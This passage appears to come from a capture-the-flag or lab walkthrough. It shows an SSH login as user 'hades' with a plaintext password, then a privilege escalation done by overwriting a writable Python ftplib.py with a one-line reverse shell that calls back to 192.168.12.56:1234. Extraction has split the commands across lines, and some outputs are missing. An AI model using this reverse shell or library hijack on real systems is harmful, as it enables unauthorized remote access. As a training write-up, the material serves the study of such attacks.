


4.3 Log in with SSH
As we already have credentials of one more user “hades”.
a) Log in as user “hades”.
$ssh
hades@192.168.12.78
Password
:
PTpZTfU4vxgzvRBE
b) Explore the “/opt/ftpclilent/ftpclient.py” file.
$ls
-l
/
opt
/
ftpclient
/
ftpclient.py
Output:
-
rw
-r--r-- 1 root
hades
262 Apr 6 2020 /opt/
ftpclient
/
ftpclient
.
py
“hades” user doen't have any writable permissions over this file.
Now let see what the file does.
$cat
/
opt
/
ftpclient
/
ftpclient.py
Output:

There's a file called “ftplib”.
c) Look for that file.
$find
.
-name
"ftplib.py"
Output:

d) Let's go to “/usr/lib/python2.7/” and check the file permissions.
$cd
/
usr
/
lib
/
python2.7
$ls
-l ftplib.py
Output:
e) Delete all the content of “ftplib.py”
$echo
" "
> ftplib.py
f) Add a Python Reverse Shell.
More info
here
.
$nano
ftplib.py
Add the following code.
import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((
"192.168.12.56"
,
1234
));os.dup2(s.fileno(),
0
); os.dup2(s.fileno(),
1
); os.dup2(s.fileno(),
2
);p=subprocess.call([
"/bin/sh"
,
"-i"
]);
Index